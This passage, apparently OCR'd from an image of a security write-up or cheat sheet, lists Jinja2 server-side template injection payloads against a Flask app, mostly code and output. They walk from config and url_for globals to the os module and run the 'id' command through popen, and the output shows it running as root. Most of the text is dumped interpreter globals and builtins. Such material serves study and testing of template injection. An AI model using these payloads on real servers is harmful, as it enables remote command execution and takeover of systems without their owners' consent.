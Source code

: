 ```txt
See www.python.org for more information., 'license': Type license() to see the full 
license text, 'help': Type help() for interactive help, or help(object) for help about 
object.}, 'errno': <module 'errno' (built-in)>, 'os': <module 'os' from 
'/usr/local/lib/python3.9/os.py'>, 'types': <module 'types' from 
'/usr/local/lib/python3.9/types.py'>, 'import_string': <function import_string at 
0x7fc672fd5310>, 'json': <module 'flask.json' from '/usr/local/lib/python3.9/site-
packages/flask/json/__init__.py'>, 'iteritems': <function <lambda> at 0x7fc672beef70>, 
'string_types': (<class 'str'>,), 'ConfigAttribute': <class 
'flask.config.ConfigAttribute'>, 'Config': <class 'flask.config.Config'>}! 
```
- `{{config.__class__.__init__.__globals__['os']}}`   
```txt
Hello <module 'os' from '/usr/local/lib/python3.9/os.py'>! 
```
- `{{config.__class__.__init__.__globals__['os'].popen('id')}}`   
```txt
Hello <os._wrap_close object at 0x7fc67227c880>! 
```
- `{{config.__class__.__init__.__globals__['os'].popen('id').read()}}`   
```txt
Hello uid=0(root) gid=0(root) groups=0(root) ! 
```
#### url_for
- `{{url_for}}`   
```txt
Hello <function url_for at 0x7fc672b945e0>! 
```
- `{{url_for.__globals__}}`   
```txt
Hello {'__name__': 'flask.helpers', '__doc__': '\n flask.helpers\n ~~~~~~~~~~~~~\n\n 
Implements various helpers.\n\n :copyright: 2010 Pallets\n :license: BSD-3-Clause\n', 
'__package__': 'flask', '__loader__': <_frozen_importlib_external.SourceFileLoader 
object at 0x7fc672b43b20>, '__spec__': ModuleSpec(name='flask.helpers', loader=
<_frozen_importlib_external.SourceFileLoader object at 0x7fc672b43b20>, 
origin='/usr/local/lib/python3.9/site-packages/flask/helpers.py'), '__file__': 
'/usr/local/lib/python3.9/site-packages/flask/helpers.py', '__cached__': 
'/usr/local/lib/python3.9/site-packages/flask/__pycache__/helpers.cpython-39.pyc', 
'__builtins__': {'__name__': 'builtins', '__doc__': "Built-in functions, exceptions, and 
other objects.\n\nNoteworthy: None is the `nil' object; Ellipsis represents `...' in 
slices.", '__package__': '', '__loader__': <class '_frozen_importlib.BuiltinImporter'>, 
'__spec__': ModuleSpec(name='builtins', loader=<class 
'_frozen_importlib.BuiltinImporter'>, origin='built-in'), '__build_class__': <built-in 
function __build_class__>, '__import__': <built-in function __import__>, 'abs': <built-
in function abs>, 'all': <built-in function all>, 'any': <built-in function any>, 
'ascii': <built-in function ascii>, 'bin': <built-in function bin>, 'breakpoint': 
<built-in function breakpoint>, 'callable': <built-in function callable>, 'chr': <built-
in function chr>, 'compile': <built-in function compile>, 'delattr': <built-in function 
delattr>, 'dir': <built-in function dir>, 'divmod': <built-in function divmod>, 'eval': 
<built-in function eval>, 'exec': <built-in function exec>, 'format': <built-in function 
format>, 'getattr': <built-in function getattr>, 'globals': <built-in function globals>, 
'hasattr': <built-in function hasattr>, 'hash': <built-in function hash>, 'hex': <built-
in function hex>, 'id': <built-in function id>, 'input': <built-in function input>, 
'isinstance': <built-in function isinstance>, 'issubclass': <built-in function 
issubclass>, 'iter': <built-in function iter>, 'len': <built-in function len>, 'locals': 
<built-in function locals>, 'max': <built-in function max>, 'min': <built-in function 
min>, 'next': <built-in function next>, 'oct': <built-in function oct>, 'ord': <built-in 
function ord>, 'pow': <built-in function pow>, 'print': <built-in function print>, 
'repr': <built-in function repr>, 'round': <built-in function round>, 'setattr': <built-
in function setattr>, 'sorted': <built-in function sorted>, 'sum': <built-in function 
sum>, 'vars': <built-in function vars>, 'None': None, 'Ellipsis': Ellipsis, 
'NotImplemented': NotImplemented, 'False': False, 'True': True, 'bool': <class 'bool'>, 
'memoryview': <class 'memoryview'>, 'bytearray': <class 'bytearray'>, 'bytes': <class 
'bytes'>, 'classmethod': <class 'classmethod'>, 'complex': <class 'complex'>, 'dict': 
<class 'dict'>, 'enumerate': <class 'enumerate'>, 'filter': <class 'filter'>, 'float': 
```